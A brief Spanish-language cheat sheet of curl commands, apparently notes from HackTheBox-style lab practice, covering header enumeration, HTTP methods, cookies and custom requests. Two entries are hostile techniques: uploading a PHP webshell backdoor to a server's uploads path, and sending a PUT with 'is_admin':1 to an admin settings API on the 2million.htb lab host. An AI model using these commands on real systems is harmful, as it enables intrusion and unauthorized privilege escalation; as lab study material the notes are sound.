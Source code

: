 #### Podemos enumerar los headers del servidor web con curl:
`curl -v -I http://<ip>`

#### Ver los métodos HTTP permitidos por el servidor:
`curl -v -X OPTIONS http://<ip>`

#### Crear GET request:
`curl -X GET http://<ip>/`

#### Acceder recurso concreto:
`curl -X GET http://<ip>/home`

#### Subir un fichero:
`curl http://<ip>/uploads --upload-file /usr/share/webshells/php/simple-backdoor.php`

#### Hacer una petición agregando COOKIE de sessión para que no de 401 Anauthorized
```bash
curl -v http://2million.htb/api/v1 --cookie "PHPSESSID=1864av34gp7hi9knhpdb848ojo"
```

#### Hacer una petición con un HEADER customizado
```bash
curl -X PUT -v http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=1864av34gp7hi9knhpdb848ojo" --header "Content-Type: application/json" | jq

```

#### Hacer una petición con un BODY (data)
```bash
curl -X PUT -v http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=1864av34gp7hi9knhpdb848ojo" --header "Content-Type: application/json" --data '{"email":"test@test.com","is_admin":1}' | jq

```